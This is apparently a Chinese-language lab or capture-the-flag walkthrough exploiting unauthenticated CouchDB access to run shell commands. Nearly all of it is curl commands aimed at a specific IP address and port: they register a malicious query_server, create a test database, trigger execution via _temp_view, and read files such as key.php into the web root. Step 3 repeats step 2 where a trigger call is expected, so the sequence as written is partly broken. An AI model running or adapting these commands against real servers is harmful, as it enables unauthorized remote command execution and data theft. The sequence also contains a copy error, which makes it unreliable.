



CouchDB未授权访问
CouchDB未授权访问
ip:219.153.49.228 端口：49489(apache服务端口) 44267
1.新增query_server配置，这里执行ifconfig命令
curl -X PUT 'http://219.153.49.228:44267/_config/query_servers/cmd' -d '"/sbin/ifconfig >/var/www/html/a"'【要打两遍】
2.新建一个临时表，插入一条记录
curl -X PUT 'http://219.153.49.228:44267/vultest'
curl -X PUT 'http://219.153.49.228:44267/vultest/vul' -d '{"_id":"25ea803643bfdf11a87f851d0f8cea83"}'
3.调用query_server处理数据
curl -X PUT 'http://219.153.49.228:44267/vultest'
curl -X PUT 'http://219.153.49.228:44267/vultest/vul' -d '{"_id":"25ea803643bfdf11a87f851d0f8cea83"}'
4. 看是否能够成功回显出ifconfig内容，图片中成功回显

5. 查看ls和cat命令路径
root@kali:~# which ls
/bin/ls
root@kali:~# which cat
/bin/cat
6.查看目录
curl -X PUT 'http://219.153.49.228:44267/_config/query_servers/cmd' -d '"/bin/ls >/var/www/html/a"'【要打两遍】
curl -X POST 'http://219.153.49.228:44267/vultest/_temp_view?limit=11' -d '{"language":"cmd","map":""}' -H 'Content-Type: application/json'【执行】

7.查看key.php内容
curl -X PUT 'http://219.153.49.228:44267/_config/query_servers/cmd' -d '"/bin/cat key.php>/var/www/html/a"'【要打两遍】
curl -X POST 'http://219.153.49.228:44267/vultest/_temp_view?limit=11' -d '{"language":"cmd","map":""}' -H 'Content-Type: application/json'【执行】
